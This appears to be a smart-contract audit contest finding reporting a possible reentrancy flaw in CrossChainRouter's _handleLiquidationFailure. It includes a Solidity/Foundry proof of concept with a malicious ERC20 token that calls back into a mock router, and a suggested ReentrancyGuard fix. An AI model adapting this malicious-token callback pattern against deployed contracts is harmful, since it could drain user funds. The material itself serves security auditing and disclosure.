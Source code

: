 Rough Tweed Sawfish

High

# Reentrancy Vulnerability in _handleLiquidationFailure Function of CrossChainRouter

### Summary

The _handleLiquidationFailure function in CrossChainRouter.sol lacks reentrancy protection when calling safeTransfer on an ERC20 token, potentially allowing malicious tokens to reenter the contract and manipulate its state.

### Root Cause

In CrossChainRouter.sol, the _handleLiquidationFailure function calls IERC20(underlying).safeTransfer(payload.liquidator, payload.amount) without a reentrancy guard. This external call to an ERC20 token contract could enable a malicious token to re-enter the contract during the transfer, violating the checks-effects-interactions pattern.
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L482

### Internal Pre-conditions

A liquidation failure message is received via LayerZero, triggering _handleLiquidationFailure.
The underlying token is a malicious ERC20 token with a fallback function or hooks that can re-enter the contract.

### External Pre-conditions

None.

### Attack Path

The attacker deploys a malicious ERC20 token that, when transferred to, executes a fallback function calling back into CrossChainRouter.
The attacker manipulates the system to trigger a liquidation failure, causing _handleLiquidationFailure to be called with the malicious token as the underlying token.
During the safeTransfer execution, the malicious token re-enters the contract, potentially targeting other state-modifying functions.

### Impact

An attacker could potentially drain escrowed tokens or manipulate the contract's state by re-entering other functions during the safeTransfer call, leading to financial loss for the protocol or its users.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import "forge-std/Test.sol";

contract CrossChainRouter {
    using SafeERC20 for IERC20;

    uint256 public exploitCounter; 

    struct LZPayload {
        uint256 amount;
        address liquidator;
        address underlying;
    }

    
    function _lzReceive(bytes memory _payload) public {
        LZPayload memory payload = abi.decode(_payload, (LZPayload));
        _handleLiquidationFailure(payload);
    }

   
    function _handleLiquidationFailure(LZPayload memory payload) internal {
        IERC20(payload.underlying).safeTransfer(payload.liquidator, payload.amount);
    }


    function exploitFunction() public {
        exploitCounter += 1; 
    }
}

contract MaliciousERC20 is ERC20 {
    CrossChainRouter public router;

    constructor(address _router) ERC20("MaliciousToken", "MTK") {
        router = CrossChainRouter(_router);
        _mint(msg.sender, 1000 * 10**18);
    }

    function transfer(address recipient, uint256 amount) public override returns (bool) {
        router.exploitFunction(); 
        return super.transfer(recipient, amount);
    }
}


contract ReentrancyPoCTest is Test {
    CrossChainRouter router;
    MaliciousERC20 maliciousToken;
    address attacker = address(this);

    function setUp() public {
        router = new CrossChainRouter();
        maliciousToken = new MaliciousERC20(address(router));
        maliciousToken.approve(address(router), type(uint256).max);
    }

    function testReentrancyExploit() public {
        CrossChainRouter.LZPayload memory payload = CrossChainRouter.LZPayload({
            amount: 100 * 10**18,
            liquidator: attacker,
            underlying: address(maliciousToken)
        });

 
        bytes memory encodedPayload = abi.encode(payload);
        uint256 initialCounter = router.exploitCounter();
        router._lzReceive(encodedPayload);


        assertGt(router.exploitCounter(), initialCounter, "Reentrancy exploit failed");
    }
}

### Mitigation

Inherit from OpenZeppelin's ReentrancyGuard in the CrossChainRouter contract.
Add the nonReentrant modifier to the _handleLiquidationFailure function